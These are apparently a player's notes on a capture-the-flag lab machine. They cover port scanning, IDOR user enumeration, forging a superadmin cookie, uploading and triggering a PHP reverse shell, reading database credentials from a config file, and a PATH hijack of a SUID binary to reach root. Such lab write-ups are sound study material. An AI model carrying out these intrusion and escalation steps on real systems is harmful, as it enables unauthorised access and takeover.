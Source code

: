 - nmap scan:
	- 22: ssh
		- no vulns
		- OpenSSH 7.6p1
	- 80: http
		- Apache httpd 2.4.29

- website
	- simple no on-eye input fields
	-  gobuster
		-  returns nothing
	-  burp suite
		-  login page discoved
		-  try to log in with creds from previous box
			-  `admin:MEGACORP_4dm1n!!`
			-  `id=1`
			-  get's us to administration page
		-  another possible id/username under IDOR
			-  `id=4: john`
			-  `id=13 peter`
			-  `id=23 rafol`
			-  `id=30 superadmin`
				-  `Cookie: user=86575; role=super admin`

- foothold
	- upload php reverse shell from superadmin
	- find where the files got uploaded
		- fuzz with [[dirsearch]] -> in /uploads
	- `curl http://<IP>/uploads/<file_name>`
		- -> get shell
		- upgrade:	
		```
		SHELL=/bin/bash script -q /dev/null
		ctrl+z
		stty raw -echo
		fg
		reset
		xterm
		```
	- find user flag

- privilege escalation (part1- www-data => robert)
	- `sudo -l` => nothing
	- find creds for the user running the webapp
		- search file structure in `/var/ww/...`
		- `db.php` file in `/var/www/html/cdn-cgi/login`
		- default creds: `robert:M3g4C0rpUs3r!`

- privilege escalation (part2 robert => root)
		- `su robert`
		- `id` - got more info about robert
			- find all files that belong to group that robert is in `find / -type f -group bugtracker` => /usr/bin/bugtracker binary
			- it runs cat on some file
		- => create bogus cat in PATH  
		```
		export PATH=/tmp:$PATH
		cd /tmp/
		echo 'bin/sh' > cat
		chmod +x cat
		```
		- run the binary again => you get shell
			- find the flag